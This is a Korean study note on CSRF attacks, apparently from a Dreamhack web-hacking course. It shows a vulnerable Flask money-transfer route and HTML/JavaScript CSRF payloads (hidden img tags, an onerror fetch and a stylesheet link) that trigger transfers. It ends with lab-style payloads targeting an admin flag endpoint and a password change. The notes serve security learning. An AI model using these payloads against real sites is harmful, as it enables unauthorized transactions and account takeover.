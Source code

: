 ## CSRF

- 임의 사용자의 쿠키를 사용할 수 있다면, 이는 곧 임의 이용자의 권한으로 웹 서비스의 기능을 사용할 수 있는 것이다.
- CSRF는 임의 사용자의 권한으로 임의 주소에 HTTP 요청을 보낼 수 있는 취약점이다. 
- Ex) 이용자의 계정으로 임의 금액을 송금해 금전적인 이득을 취하거나 비밀번호를 변경해 계정을 탈취하고, 관리자 계정을 공격해 공지사항 작성 등으로 혼란을 야기할 수 있다.
```python
# 이용자가 /sendmoney에 접속했을때 아래와 같은 송금 기능을 웹 서비스가 실행함.
@app.route('/sendmoney')
def sendmoney(name): # 송금을 받는 사람과 금액을 입력받음. 
	to_user = request.args.get('to') 
	amount = int(request.args.get('amount')) # 송금 기능 실행 후, 결과 반환 
	
	success_status = send_money(to_user, amount) # 송금이 성공했을 때, 
	if success_status: # 성공 메시지 출력 
		return "Send success." # 송금이 실패했을 때, 
		
	else: # 실패 메시지 출력 
		return "Send fail."
```

## CSRF 동작

- CSRF 공격에 성공하기 위해서는 공격자가 작성한 악성 스크립트를 이용자가 실행해야 한다. 
- 이는 공격자가 이용자에게 메일을 보내거나 게시판에 글을 작성해 이용자가 이를 조회하도록 유도하는 방법이 있다.
- 여기서 보내는 악성 스크립트는 HTTP 요청을 보내는 코드이다.
- CSRF 공격 스크립트는 HTML 또는 Javascript를 통해 작성할 수 있다. 
- ---
**figure 3**
```HTML
<img src='http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337' width=0px height=0px>
```

**CSRF 실습 코드**
```html
<img src="/sendmoney?to=dreamhack&amount=1337">

<img src=1 onerror="fetch('/sendmoney?to=dreamhack&amount=1337');">

<link rel="stylesheet" href="/sendmoney?to=dreamhack&amount=1337">
```

## XSS와 CSRF의 차이

### 공통점

- 두 개의 취약점은 모두 클라이언트를 대상으로 하는 공격이며, 이용자가 악성 스크립트가 포함된 페이지에 접속하도록 유도해야 한다.

### 차이점

- 두 개의 취약점은 공격에 있어 서로 다른 목적을 가진다. XSS는 인증 정보인 세션 및 쿠키 탈취를 목적으로 하는 공격이며 공격할 사이트의 오리진에서 스크립트를 실행시킨다.
- CSRF는 이용자가 임의 페이지에 HTTP 요청을 보내는 것을 목적으로 하는 공격이다. 또한, 공격자는 악성 스크립트가 포함된 페이지에 접근한 이용자의 권한으로 웹 서비스의 임의 기능을 실행할 수 있다.

<img src="/admin/notice_flag?userid=admin" />
<img src="/change_password?pw=admin">

